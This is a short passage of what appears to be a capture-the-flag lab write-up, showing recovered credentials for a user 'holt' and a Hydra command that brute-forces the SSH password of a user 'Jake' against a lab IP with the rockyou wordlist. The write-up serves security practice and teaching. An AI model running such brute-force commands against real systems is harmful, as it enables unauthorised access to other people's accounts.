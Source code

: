 <img src="Images/image-5.png" alt="alt text" width="75%" />

The extracted data revealed credentials for the user holt.

<img src="Images/image-6.png" alt="alt text" width="40%" />

### 🔓 Brute-Force Attack

With Jake identified as a potential username, we proceeded to brute-force his SSH credentials using Hydra:

```bash
hydra -l Jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.232.91
```
<img src="Images/image-8.png" alt="alt text" width="50%" />
